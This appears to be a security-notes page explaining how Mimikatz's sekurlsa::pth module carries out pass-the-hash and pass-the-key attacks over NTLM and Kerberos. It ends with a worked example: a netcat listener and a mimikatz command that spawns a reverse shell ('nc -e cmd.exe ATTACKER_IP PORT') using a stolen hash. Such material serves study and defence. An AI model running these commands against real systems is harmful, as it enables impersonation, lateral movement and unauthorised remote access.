 # sekurlsa::pth

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

I aim to provide a general high-level overview of how the `sekurlsa::pth` module works to allow an attacker to impersonate a user.&#x20;

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Technical details

The `sekurlsa::pth` method performs a **Pass-the-Hash** or **Pass-the-Key** attack for NTLM and Kerberos authentication respectively, that depends on the provided options (eg. `/ntlm` , `/rc4` , etc.).

Now, when we start a new command prompt session, we can verify that the injected Kerberos ticket is present using the `klist` command. Any external network connections (eg. `schtasks` , `sc.exe` , etc.) executed from that forged logon session will automatically use the injected credentials, giving us access as that particular user on the remote machine.

**a. Using stolen NTLM hash with NetNTLM authentication**

1. When we receive a challenge from the remote server, the injected NTLM hash will be used to create the challenge response&#x20;
2. Since we are using the NTLM hash of the target user, we can authenticate as that particular user

**b. Using stolen encryption key with Kerberos authentication**

1. Given that we have extracted the Kerberos encryption key, it can be used to encrypt the timestamp that is required for the **TGT** request
2. The **KDC** will then respond with the **TGT** and a **Session Key**
3. Subsequently, we can use the retrieved values to request for a **TGS** as the user stored in the Kerberos encryption key in the first step

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a logon session as the user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform PtH:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

From the shell session established:

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

